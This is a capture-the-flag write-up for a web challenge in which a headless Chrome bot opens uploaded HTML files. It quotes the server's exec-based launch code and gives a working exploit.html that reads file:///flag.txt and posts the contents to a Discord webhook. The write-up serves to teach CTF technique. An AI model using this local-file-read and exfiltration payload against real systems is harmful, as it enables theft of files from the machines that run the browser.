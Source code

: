 

---

# 🌐 So Many Flags 🏳️

```
Author @ Sera
```

## 🚀 Challenge 
**Category:** Web  
**Description:**  
I heard you like flags, so I launched Chrome with a lot of flags so you can get your flag! The flag is in `/flag.txt`, and the bot will visit the HTML file you uploaded!

🔗 **Target:** [https://coming-home--diddy-dirty-money-4054.ctf.kitctf.de/](https://coming-home--diddy-dirty-money-4054.ctf.kitctf.de/)

---

## 🛠️ Solution
### 1️⃣ Step 1: Enumeration
The challenge gives us a website where you can upload HTML files. When the file is uploaded, a bot visits the file using a headless Chrome browser containing the flag/s.

### 2️⃣ Step 2: Analyzing the Server Code
Provided file: `so-many-flags.tar.gz`  
We can extract the zip showing `Dockerfile`, `server.js`, `package.json`, and `flags.txt` files.

Analyzing the backend server file, we can see a critical flaw in `server.js`:
```javascript
app.post('/submit', upload.single('htmlFile'), (req, res) => {
  const { filename, path: filePath } = req.file;
  const command = `bash -c "google-chrome-stable --disable-gpu --headless=new --no-sandbox --no-first-run ${flags} ${filePath}"`;
  res.send('File uploaded and processed successfully. Launched Chrome:<br><br>' + command);
  exec(command);
});
```
This code uploads the HTML file and executes it in a Chrome browser with flags.

### 3️⃣ Step 3: Making our Exploit
To read the `/flag.txt` file and obtain our flag, we can make an HTML file that uses JavaScript to fetch the content within the `/flag.txt` file and send it to a webhook.

We leveraged the critical flaw within the server file with our own HTML file to obtain the flag.
`exploit.html`:
```html
<!DOCTYPE html>
<html>
<body>
  <h1>Attempt to Read Flag</h1>
  <script>
    fetch('file:///flag.txt')
      .then(response => response.text())
      .then(data => {
        const webhookUrl = 'https://discord.com/api/webhooks/YOUR_WEBHOOK_ID/YOUR_WEBHOOK_TOKEN';
        const message = {
          content: `Flag: ${data}`
        };
        fetch(webhookUrl, {
          method: 'POST',
          headers: {
            'Content-Type': 'application/json'
          },
          body: JSON.stringify(message)
        });
      })
      .catch(error => console.error('Error:', error));
  </script>
</body>
</html>
```

### 4️⃣ Step 4: Executing and Grabbing the Flag
1. **Upload the File:** Go to the target website and upload the `exploit.html` file.
2. **Check the Discord Webhook:** The flag should be sent to the Discord webhook successfully. 

---

## 🏁 Conclusion
We were able to obtain the key by reading the `/flag.txt` file using a headless Chrome browser. We did this by leveraging the bot to access local files and send the file contents to our Discord webhook using JavaScript.

## 🎉 Flag
```
Flag: GPNCTF{CL1_FL4G5_4R3_FL4G5_T00}
```

---
